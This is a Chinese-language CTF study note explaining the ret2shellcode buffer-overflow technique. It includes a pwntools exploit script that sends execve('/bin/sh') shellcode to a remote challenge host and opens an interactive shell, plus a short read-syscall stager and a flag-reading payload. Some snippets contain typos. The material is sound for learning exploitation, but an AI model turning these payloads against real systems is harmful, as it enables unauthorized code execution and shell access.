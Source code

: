 `ret2shellcode` 是当我们程序中并没有我们的 system 函数的函数的时候，或者我们的 system 函数缺少一定的参数的时候，我们回去选择使用的一种方法。

我们想要实现一个 `ret2shellcode`,我们就需要下面的几个步骤：
第一步：确定我们的缺少内容，以及我们的程序保护
第二步：根据我们的程序保护确定我们要构造的内容和位置。
第三步：找到我们构造的 `shellcode` 的地址在哪里，然后我们再去调用调用我们的 `shellcode`


第一步：检查我们的栈保护
![[Pasted image 20240116145249.png]]

## 没有开启 NX 保护
### 思路
如果我们的程序没有开启我们的 NX 保护，那么我们可以考虑直接在我们的栈上写 shellcode 并且并且在栈上执行我们的 shellcode，

## 第一步：shellcode 构造 
这里，我们可以先考虑装在我们的 shellcode。这里，我们的 shellcode 在大部分情况下，可以通过我们的
```python
shellcode=asm(shelllcraft.sh())
```
来获得，在某些特殊情况（限制长度）下，我们才考虑去手动构造。

## 第二步：payload 构造
在这里，我们需要根据我们栈是否可以执行分为两类，如果我们的**栈上可以执行**，那么，我们直接就让我们的地址等于我们的栈的地址即可，
```cpp
payload=asm(shellcraft.sh()).ljust(112,b'A')
```
这个时候，我们构造的 `shellcode` 结构就应该如下所示：
1. Shellcode: 这一点我们可以通过我们 python 库库里的 `asm.(shellcraft.sh())` 来得到。
2. X 字节的垃圾数据，我们这里的所有是为了溢出到我们对应的 `return_address`。这里我们可以通过 python 中的中的 ljust 来确定
```python
payload=asm(shellcraft.sh()).ljust(112,b'A')
```
3. 4 字节的返回地址，这里我们的位置应该是我们的变量的初始地址，以做到执行我们的对应程序
```python
payload+=p32(buf2)
```

那么我们就可以把我们的地址设置为我们的 `buf2` 所在的地址。然后我们现把我们的 `shellcode` 写入到我们的 s，然后再找我们的 `buf2` 地址。

如果我们的**栈上不可执行**，那么我们需要修改的就是我们的输入输出方式和我们的 payload。需要我们具体问题具体分析，我们最后的 `p32` 的地址要自己去找 
```python
from pwn import *

context(os ='linux',arch = 'amd64',log_level = 'debug')

native = 0

  

if native :

    p = process('pwn1')

    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

else :

    p = remote('node1.anna.nssctf.cn',28418)

    #libc = ELF('')

  

def debug():

    gdb.attach(p)

    pause()

def get_addr():

    return u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))

se      = lambda data               :p.send(data)

sa      = lambda delim,data         :p.sendafter(delim, data)

sl      = lambda data               :p.sendline(data)

sla     = lambda delim,data         :p.sendlineafter(delim, data)

sea     = lambda delim,data         :p.sendafter(delim, data)

rc      = lambda numb=4096          :p.recv(numb)

rl      = lambda                    :p.recvline()

ru      = lambda delims             :p.recvuntil(delims)

name = 0x6010a0

shellcode =b'\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05';//手写shellcode

sa("Please.\n",shellcode)

payload = cyclic(0xa+8) + p64(name)

sla("start!",payload)

p.interactive()
```
## 要求 shellcode 短
第一步，观察我们的寄存器。
![[Pasted image 20240123173411.png]]
这里，我们的目标实把我们的 RDX 变成一个很大的值，这里，我们就可以通过我我们的 pop 指令来修改我们的 rdx 的值。

之后，我们就可以通过我们的异或操作，来吧我们的对应值都设置为我们的固定值。

```python
sc='push 0xfff;pop rdx;xor rax,rax;syscall'
```

通过上面的指令，我们就能够读一个 0xfff 大小的数据，并且把我们的数据存储在一个固定的位置，这个位置需要我们使用我们的 gdb 调试去检查。
![[Pasted image 20240123174807.png]]
之后，我们再去计算这个位置和我们的下一条可执行指令的区域想差是多少，然后再在对应位置构造一个 shellcode 即可。
![[Pasted image 20240123175117.png]]


![[Pasted image 20240123175133.png]]


```python
payload=a*0x23+asm(shellcraft.cat(./flag))
```

